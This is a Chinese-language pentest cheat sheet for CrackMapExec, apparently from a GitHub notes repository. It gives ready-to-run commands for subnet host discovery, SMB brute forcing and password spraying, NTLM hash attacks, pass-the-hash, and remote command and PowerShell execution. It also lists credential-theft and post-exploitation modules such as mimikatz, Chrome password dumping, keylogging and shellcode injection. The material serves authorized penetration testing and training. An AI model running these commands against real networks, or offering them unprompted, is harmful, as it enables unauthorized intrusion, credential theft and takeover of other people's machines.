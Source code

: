   #### 信息收集
	返回活动主机
	>crackmapexec smb 192.168.0.0/24
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/252.png)
  #### 爆破
	支持协议ssh,smb,winrm,mssql,http
	爆破smb协议，两台机器，一个用户名多个密码
	>crackmapexec smb 192.168.0.98 192.168.0.55 -u username1 -p password1 password2
	>crackmapexec smb 192.168.0.0/24 -d zone.com -u y -p 'password' --shares
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/253.png)

	密码喷射
	>crackmapexec <protocol> <target(s)> -u username1 username2 -p password1
	指定字典
	>crackmapexec <protocol> <target(s)> -u /tmp/user.txt -p /tmp/pass.txt
	Hash爆破
	>crackmapexec <protocol> <target(s)> -u /tmp/user.txt -H /tmp/ntlm.txt
  #### 可用模块
	日志的保存位置
	~/.cme/logs
	查看协议可用后续模块
	>crackmapexec smb -L
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/254.png)

	常用的模块
	Get-ComputerDetails获取计算机信息
	Bloodhound 执行一个BloodHound脚本获取信息
	empire_exec 与empire交互
	enum_avproducts 列举AV产品
	enum_chrome 获取目标chrome中保存的密码
	get_keystrokes 键盘记录
	get_netdomaincontroller 列出所有域控制器
	get_netrdpsession 列出活动的RDP会话
	gpp_autologin 从域控中registry.xml查找自动登录的账户密码
	gpp_password 组策略凭据中返回GPP密码
	invoke_sessiongopher 保存putty,winscp,filezilla,superputty rdp的session
	invoke_vnc 注入一个vnc客户端到内存
	met_inject 与msf交互
	mimikatz 调用mimikatz模块
	mimikatz_enum_chrome 使用mimikatz解密chrome保存的密码
	mimikatz_enum_vault_creds 解密windows凭据管理器中保存的密码
	mimikittenz 执行咪咪猫(windows密码获取软件)
	multirdp 允许多用户登录RDP
	netripper 通过API hooking截取平常
	pe_inject DLL/EXE注入
	rdp 开启或关闭RDP
	shellcode_inject 注入shellcode
	tokens 列举可用token
	uac 查看UAC是否开启
	wdigest 开启或关闭wdigest
	web_delivery 执行exploit/multi/script/web_delivery模块
	查看模块的选项
	>crackmapexec smb -M module --options
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/255.png)

	使用方式
	>crackmapexec smb <target(s)> -u user -p 'P@ssw0rd' -M module -o 参数=值
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/256.png)
  #### PTH
	>crackmapexec smb <target(s)> -u username -H LMHASH:NTHASH
	>crackmapexec smb <target(s)> -u username -H NTHASH
  #### 执行命令
	>crackmapexec smb 192.168.0.98 -u y -p 'qwe12323' -x 'command'
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/257.png)

	-X执行powershell命令
	>crackmapexec smb 192.168.0.98 -u y -p 'qwe12323' -X 'POWESHELL'